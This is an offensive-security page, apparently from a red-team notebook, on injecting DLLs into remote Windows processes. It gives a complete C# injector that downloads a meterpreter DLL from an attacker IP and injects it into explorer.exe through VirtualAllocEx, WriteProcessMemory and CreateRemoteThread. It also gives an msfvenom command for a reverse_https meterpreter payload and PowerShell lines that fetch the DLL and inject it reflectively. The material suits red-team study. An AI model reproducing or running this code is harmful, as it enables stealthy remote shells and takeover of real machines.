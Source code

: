 ```yaml
---
description: Inject DLLs into remote process's virtual address space
---
```


# DLL Injectors




## Classic DLL Injection



### C\# Executable

A simple C# DLL injector to explain the basics:

1. Allocate space for the malicious DLL name in remote process's virtual address space.
2. Write the DLL name into the allocated space.
3. Locate the address of the [LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function in kernel32.dll with `GetModuleHandle` and `GetProcAddress`. Most Windows native DLLs are allocated at the same base address, so the obtained address of `LoadLibraryA` will be the same for the remote process.
4. Invoke `LoadLibraryA` function on the behalf of the remote thread supplying base `LoadLibraryA` address as the *4th* argument of `CreateRemoteThread` and the address of the DLL name to be loaded as the *5th* argument.

All this is needed because `LoadLibrary` functions cannot be invoked natively on a remote process.

{% code title="DLLInjector.cs" %}
```csharp
using System;
using System.Net;
using System.Linq;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Text;

namespace DLLInjector
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            // Download the malicious DLL
            String dirName = Environment.GetFolderPath(Environment.SpecialFolder.MyMusic);
            String dllName = dirName + "\\met.dll";
            WebClient wc = new WebClient();
            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f dll -o met.dll
            wc.DownloadFile("http://10.10.13.37/met.dll", dllName);

            // Get remote process handle
            Process[] pList = Process.GetProcessesByName("explorer");
            int processId = pList.First().Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);

            // Allocate space for the DLL name in remote process's virtual address space and write it
            IntPtr dllNameAddress = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            WriteProcessMemory(hProcess, dllNameAddress, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

            // Locate base address of the LoadLibraryA function in kernel32.dll (this address will be the same for the remote process)
            IntPtr loadLibraryAddress = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

            // Invoke LoadLibraryA function in the remote process supplying starting address of the malicious DLL in its (process's) address space
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibraryAddress, dllNameAddress, 0, IntPtr.Zero);
        }
    }
}
```
{% endcode %}

{% hint style="warning" %}
According to [this](https://github.com/rapid7/metasploit-framework/blob/09fe84faed5fa055df54fdf858ebd0de750eb34f/data/templates/src/pe/dll/template.c) template that MSF is using to generate a DLL, there's another injection technique (Thread Execution Hijacking) [in the DLL code itself](https://github.com/rapid7/metasploit-framework/blob/09fe84faed5fa055df54fdf858ebd0de750eb34f/data/templates/src/pe/dll/template.c#L115) which is invoked upon `DLL_PROCESS_ATTACH` event. That causes the DLL not to be loaded in the target process memory, but it rather forces new shellcode to be executed by `rundll32.exe` and the malicios process (meterpreter shell, etc.) gets the PID of `rundll32.exe`. It may also result in hanging the parent's process (`explorer.exe` in terms of this example) and crashing it when the shell dies.
{% endhint %}




## Reflective DLL Injection

* [https://github.com/stephenfewer/ReflectiveDLLInjection#overview](https://github.com/stephenfewer/ReflectiveDLLInjection#overview)
* [https://github.com/dismantl/ImprovedReflectiveDLLInjection](https://github.com/dismantl/ImprovedReflectiveDLLInjection)
* [https://github.com/Moriarty2016/NimRDI](https://github.com/Moriarty2016/NimRDI)
* [https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/](https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/)



### Invoke-ReflectivePEInjection

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-ReflectivePEInjection.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-ReflectivePEInjection.ps1)

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f dll -o met.dll
PS > $bytes = (New-Object Net.WebClient).DownloadData("http://10.10.13.37/met.dll")
PS > Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId (Get-Process explorer).Id
```
